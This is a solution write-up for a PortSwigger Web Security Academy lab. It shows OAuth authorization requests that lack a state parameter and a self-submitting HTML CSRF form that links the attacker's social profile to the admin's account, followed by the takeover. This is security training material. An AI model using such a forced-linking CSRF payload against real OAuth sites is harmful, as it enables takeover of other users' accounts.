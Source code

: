 # [Lab: Forced OAuth profile linking](https://portswigger.net/web-security/oauth/lab-oauth-forced-oauth-profile-linking)

## Lab

This lab gives you the option to attach a social media profile to your account so that you can log in via OAuth instead of using the normal username and password. Due to the insecure implementation of the OAuth flow by the client application, an attacker can manipulate this functionality to obtain access to other users' accounts.

To solve the lab, use a CSRF attack to attach your own social media profile to the admin user's account on the blog website, then access the admin panel and delete Carlos.

The admin user will open anything you send from the exploit server and they always have an active session on the blog website.

You can log in to your own accounts using the following credentials:

- Blog website account: `wiener:peter`
- Social media profile: `peter.wiener:hotdog`

## Analysis

attach a social profile (Authorization code grant type):

1. Authorization request:

    ```http
    GET /auth?client_id=ybc2oc0km6ocejcubd6zz&redirect_uri=https://0a19008504bf7fb7c08837b40022001d.web-security-academy.net/oauth-linking&response_type=code&scope=openid%20profile%20email HTTP/1.1
    Host: oauth-0a5f00f4049a7f76c073352d02290008.web-security-academy.net
    ```

    the url does not contains `state`, the csrf token

2. user consent
3. authorization code grant:

    ```http
    GET /oauth-linking?code=xMdceRNTkIT6iStqFoj0EQ-uGHjE_zwz4ypI1_IASxt HTTP/1.1
    Host: 0a19008504bf7fb7c08837b40022001d.web-security-academy.net
    ```

## Solutions

start a `attach a social profile` process through burpsuite proxy, intercept the `authorization code grant` request, get the code and craft a csrf attack form:

  ```html
  <html>
      <body>
          <form action="https://0a19008504bf7fb7c08837b40022001d.web-security-academy.net/oauth-linking" method="GET">
    <input type="hidden" name="code" value="gng4O21bHskVFAyuXPihA3G4kz8jWC_WRbtMt1NLx7j" />
          </form>
          <script>
              document.forms[0].submit();
          </script>
      </body>
  </html>
  ```

login to admin account via attached social account and delete user `carlos` => solved

